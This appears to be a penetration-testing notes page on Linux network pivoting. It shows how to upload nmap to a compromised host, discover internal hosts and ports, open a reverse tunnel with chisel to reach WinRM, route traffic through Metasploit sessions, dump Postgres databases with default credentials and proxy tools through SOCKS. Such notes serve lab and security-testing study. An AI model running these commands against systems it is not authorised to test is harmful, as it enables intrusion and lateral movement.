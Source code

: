 ```yaml
---
title: Linux Pivoting
description: Accessing obtained over one machine to exploit another machine deeper in the network.
tags:
    - Network
refs:
date: 2023-04-16
draft: false
---
```


## Enumerate Network in Remote Machine

After entering remote machine, we can enumerate and search other networks.  
Before that if the target machine does not have **`nmap`**, we can upload the binary to target machine.

```bash
# Linux 64-bit
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
```

When we're ready, let's investigate the network as follow.

```sh
# ARP cache
arp -a

# Network hosts, ip addresses
cat /etc/hosts
cat /etc/resolv.conf
nmcli dev show

# Network ranges
nmap 10.0.0.1-255
nmap 172.17.0.1-255
for i in {1..255}; do (ping -c 1 10.0.0.${i} | grep "bytes from" &); done

# Port scan
nmap 10.0.0.2
nmap 172.17.0.2
for i in {1..65535}; do (echo > /dev/tcp/172.17.0.2/$i) >/dev/null 2>&1 && echo $i is open; done
```

<br />

## Access to Not Directly Accessible Host

If we find host and port but cannot directly access from local machine, we can accomplish that by reverse port forwarding.  
For example, assume we found another host **172.16.22.2** and port **5985** in remote machine, then we want to connect the port on the host. Execute the following commands on each machine.

```bash
# In local machine
chisel server -p 9999 --reverse

# In remote machine
# replace "10.0.0.1" with your local ip address
chisel client 10.0.0.1:9999 R:5985:172.16.22.2:5985
```

Now we can access to `172.16.22.2:5985` from local machine as follow.

```bash
nmap -p 5985 localhost

# Result
PORT     STATE SERVICE
5985/tcp open  wsman
```

After that we can connect to the service.

```sh
evil-winrm -u username -p password -i localhost
```

For details, please refer to [Port Forwarding with Chisel](/exploit/network/port-forwarding/port-forwarding-with-chisel/).

<br />

## Basic Flow with Metasploit, Meterpreter

```sh
msfconsole
msf> use auxiliary/...
msf> run

msf> background

# Upgrade the latest session to meterpreter
msf> sessions -u -1
# Interact with the latest session (meterpreter)
msf> sessions -i -1

# Resolve the remote hostname to an ip address
meterpreter> resolve <variable>

# Background the meterpreter session
meterpreter> background

# Configure the routing table to the destination for 172.28.101.51 (outputted ip of the "resolve" command) to the latest opened session.
msf> route add 172.28.101.51/32 -1

# Configure the routing table to the other destination for 172.17.0.1 (e.g. written in /.dockerenv) to the latest opened session.
msf> route add 172.17.0.1/32 -1

# Print the routing table
msf> route print
```

After modifying the routing table, you can fetch information using the IP (e.g. 172.28.101.51) in msfconsole. For example:

```sh
# PostgreSQL
msf> use auxiliary/scanner/postgres/postgres_schemadump
msf> run postgres://postgres:postgres@172.28.101.51/postgres

msf> use auxiliary/admin/postgres/postgres_sql
msf> run postgres://postgres:postgres@172.28.101/postgres sql='select * from <table>'
```

- **Socks Proxy**

    It is an intermediate server that supports relaying networking traffic between two machines.

    ```sh
    msfconsole
    msf> use auxiliary/server/socks_proxy
    msf> run srvhost=127.0.0.1 srvport=9050 version=4a

    # Check if the socks proxy is running as a background job.
    msf> jobs
    # Stop the socks proxy
    msf> jobs -k <job-id>
    ```

    After that, you can use the [localhost](http://localhost) using tools like curl, proxychains.

    ```sh
    curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v

    proxychains nmap 172.17.0.1
    proxychains ssh <user>@172.17.0.1
    ```